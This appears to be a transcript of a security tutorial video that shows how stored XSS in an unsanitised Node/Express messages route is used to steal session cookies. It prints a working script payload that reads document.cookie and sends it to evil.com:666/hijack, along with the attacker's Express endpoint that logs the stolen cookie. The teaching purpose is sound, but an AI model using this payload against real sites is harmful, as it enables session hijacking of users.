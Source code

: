[00:00] Now that our target site is protected against man in the middle and CSURF attacks, let's put our attacker hat back on and move on to our next attack, cross-site scripting, otherwise known as XSS.

[00:12] XSS attacks occur when an attacker uses a web application to inject malicious code, generally in the form of a browser-side script to unsuspecting users on otherwise trusted application. This occurs anywhere in web application, includes user input and its output while validating or encoding it.

[00:30] The way this works is that a message gets pushed under messages array and message that gets pushed is message from our user's username, followed by the value of the message parameter from the request.

[00:44] If you notice carefully, in `messages.js`, this message isn't sanitized in anyway, nor is it validated. If we then go down to our get route, we could see the messages are just printed out again, joined by two line breaks without doing any special formatting to turn a HTML into HTML entities.

[01:02] What this means is that any HTML present in messages will just be printed out as plain HTML. We can verify that this is vulnerable to XSS by attempting to include some HTML in our message. If I say `<imagesource="http://placekitten.com/400/400">`, I could see that an actual HTML for the image is placed, rather than the string representing that HTML.

![image in message](https://res.cloudinary.com/dg3gyk0gu/image/upload/v1581384987/transcript-images/egghead-make-an-xss-payload-to-read-a-cookie-from-a-vulnerable-website-html-in-message.png)

[01:34] Now that we've proven this page is vulnerable to XSS, we could do something a bit more malicious as our attacker. Let's try to steal the session cookie. We'll go to the server running evil.com, which is a pretty basic express application serving content from our static directory.

[01:50] Let's add an endpoint, which we'll call `"/hijack"`. When this endpoint is getted, let's log some information. We'll say `console.log("received cookie")` and we'll just damp the information contained in the payload parameter of our get query. We'll respond with `status(200)` and with the message OK.

### index.js
```js
app.route("/hijack").get((request, response) => {
  console.log("areceived cookie", request.query.payload);
  response.status(200);
  response.send("ok");
})
```

[02:24] As an attacker, we want to hit this endpoint. We'll make another `script` and what this script will do is it will attempt to extract the session cookie. First we'll say our `const payload = document.cookie`. Because we're transmitting it over HTTP, we'll call `encodeURIComponent` on it.

### Untitled-1
```html
<script>
const payload = encodeURIComponent(document.cookie);
</script>
```

[02:51] One of the easiest ways to transmit information is not via XHR or VFH, we'll just create a new image. We'll say `const img = newImage`. We'll set the source of our `image` to be equal to `https://evil.com:666/hijack`, which is our endpoint. It'll have a payload of our payload. That should do it.

```html
<script>
const payload = encodeURIComponent(document.cookie);
const img = new Image();
img.src = `https://evil.com:666/hijack?payload=${payload}`;
</script>
```

[03:27] Let's paste this message in now to our form. Hit submit. We could see that our request has gone out to evil.com:666/hijack with our payload, which contains our session ID. 

![payload highjacked](https://res.cloudinary.com/dg3gyk0gu/image/upload/v1581384985/transcript-images/egghead-make-an-xss-payload-to-read-a-cookie-from-a-vulnerable-website-highjacked-payload.png)

You could also notice that in the log output of our evil.com server is now printing out the cookie, thus completing our exercise attack.